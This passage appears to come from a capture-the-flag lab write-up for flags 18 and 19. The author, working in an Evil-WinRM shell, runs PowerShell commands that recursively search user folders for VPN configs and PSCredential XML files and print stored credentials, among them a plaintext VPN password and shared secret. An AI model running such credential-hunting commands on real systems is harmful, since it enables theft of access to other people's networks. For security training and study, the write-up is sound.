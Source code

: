 ### FLAG 18: VPN Configuration

**Location**: Credentials folder  
**Difficulty**: Medium

```powershell
# Search for VPN configurations
*Evil-WinRM* PS C:\> Get-ChildItem -Path C:\Users -Include "*vpn*" -Recurse -ErrorAction SilentlyContinue | Select-Object FullName

FullName
--------
C:\Users\Public\Documents\Credentials\vpn.txt

*Evil-WinRM* PS C:\> Get-Content C:\Users\Public\Documents\Credentials\vpn.txt
VPN Configuration
=================
Server: vpn.overclock.io
Port: 1194
Protocol: OpenVPN
Username: jsmith
Password: Welcome1
Shared Secret: S3cur3VPN2025
Flag: FLAG{D***********9}
```

**🎯 FLAG 18 FOUND**: FLAG{D**********9} - VPN configuration

**Why VPN Configs Are Sensitive**:
- Contains authentication credentials
- Reveals network architecture
- Provides external access routes
- Often reused passwords

### FLAG 19: PowerShell Credential Object

**Location**: XML credential file  
**Difficulty**: Medium

```powershell
# Find PowerShell credential files
*Evil-WinRM* PS C:\> Get-ChildItem -Path C:\Users -Filter "*.xml" -Recurse -ErrorAction SilentlyContinue | Select-String "PSCredential" | Select-Object Path

Path
----
C:\Users\Public\Documents\Credentials\admin.xml

*Evil-WinRM* PS C:\> Get-Content C:\Users\Public\Documents\Credentials\admin.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">Administrator</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000...</SS>
    </Props>
  </Obj>
</Objs>
<!-- Flag: FLAG{P***********9} -->
```

